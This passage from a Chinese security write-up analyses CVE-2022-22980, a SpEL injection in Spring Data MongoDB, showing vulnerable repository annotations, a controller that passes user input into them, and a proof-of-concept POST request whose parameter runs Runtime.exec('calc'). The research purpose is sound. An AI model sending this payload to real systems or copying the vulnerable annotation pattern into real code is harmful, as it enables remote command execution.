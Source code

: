 `parseExpression`只是解析了表达式，还需要调用`getValue()`才是真正执行表达式的代码。而`getValue()`在`CachingExpressionParser#parseExpression`的上一层`DefaultSpELExpressionEvaluator#evaluate`存在调用

```plain
public <T> T evaluate(String expression) {
    return (T) parser.parseExpression(expression).getValue(context, Object.class);
}
```

## [POC](#toc_poc)

结合前文`StringBasedMongoQuery#createQuery`和`StringBasedAggregation#doExecute`的两条 chain 可以得知，我们需要在程序的 repository 打上形如这样的注解：

```plain
@Query("{id : ?#{?0}}")
@Query("{id : :#{?0}}")
@Aggregation("{ '$project': { '_id' : ?#{?0} } }")
@Aggregation("{ '$project': { '_id' : :#{?0} } }")
```

Controller 将 Request 传参直接传入 repository 注解中

```plain
@RequestMapping(value = "/demo1")
public List<?> demo1(@RequestParam(name = "keyword") String keyword) {
    return demoRepository.findById1(keyword);
}
```

直接发送如下请求，即造成 SpEL 注入。

```plain
POST /demo4 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

keyword=T(java.lang.String).forName(%22java.lang.Runtime%22).getRuntime().exec(%22calc%22)
```

至此，从注解出发到`parseExpression`的 gadgets 就走完了。可见使用 tabby 生成代码属性图，能让我们很方便的识别所有的 chain，并且也方便我们一一查看，并判断 chain 的可行性。在审计中，通过阅读代码思考 Source 和 Sink 的位置，结合手册进行理解，并通过 tabby 自动化地帮助我们找 chain 和 gadgets，可以达到事半功倍的效果。

# [Reference](#toc_reference)

tabby 项目地址：[https://github.com/wh1t3p1g/tabby](https://github.com/wh1t3p1g/tabby)  
三梦师傅提供的环境：[https://github.com/threedr3am/learnjavabug/tree/master/spring/spring-data-mongodb-spel-CVE-2022-22980](https://github.com/threedr3am/learnjavabug/tree/master/spring/spring-data-mongodb-spel-CVE-2022-22980)  
[https://tanzu.vmware.com/security/cve-2022-22980](https://tanzu.vmware.com/security/cve-2022-22980)  
[https://docs.spring.io/spring-data/mongodb/docs/current/reference/html/#mongo.core](https://docs.spring.io/spring-data/mongodb/docs/current/reference/html/#mongo.core)  
[https://stackoverflow.com/questions/38509882/how-are-spring-data-repositories-actually-implemented](https://stackoverflow.com/questions/38509882/how-are-spring-data-repositories-actually-implemented)
